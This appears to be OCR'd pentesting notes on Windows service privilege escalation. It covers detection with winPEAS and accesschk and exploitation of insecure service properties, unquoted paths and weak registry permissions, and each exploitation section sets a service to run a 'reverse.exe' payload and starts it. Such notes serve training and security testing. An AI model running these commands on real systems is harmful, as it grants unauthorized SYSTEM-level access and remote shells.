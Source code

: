 			- Query the configuration of a service

				- > sc.exe qc $SERVICE_NAME

			- Query the current status of a service

				- > sc.exe query $SERVICE_NAME

			- Modify a configuration option of a service

				- > sc.exe config $SERVICE_NAME $OPTION= $VALUE

			- Start / Stop a service

				- > net start/stop $NAME

		- Insecure Properties

			- Detection

				- > .\winPEAS.exe quiet servicesinfo
				- Can modify a service?

			- Exploitation

				- > .\accesschk.exe /accepteula -uwcqv user $SERVICE_NAME
				- > sc qc $SERVICE_NAME
				- > sc query $SERVICE_NAME
				- > sc config $SERVICE_NAME binpath="\"C:\PrivEsc\reverse.exe\""
				- > net start  $SERVICE_NAME

		- Unquoted Paths

			- Detection

				- wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
				- > .\winPEAS.exe quiet servicesinfo
				- Found unquoted path?

			- Exploitation

				- c:\Program Files\something\winamp.exe
				- c:\program.exe
				- > sc qc unquotedsvc
				- > .\accesschk.exe /accepteula -uwdq C:\
				- > .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
				- > .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
				- > copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
				- > net start $SERVICE_NAME

		- Weak Registry Permissions

			- Detection

				- > .\winPEAS.exe quiet servicesinfo
				- Found weak registry entry?

			- Exploitation

				- PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
				- > .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
				- > reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
				- > net start regsvc
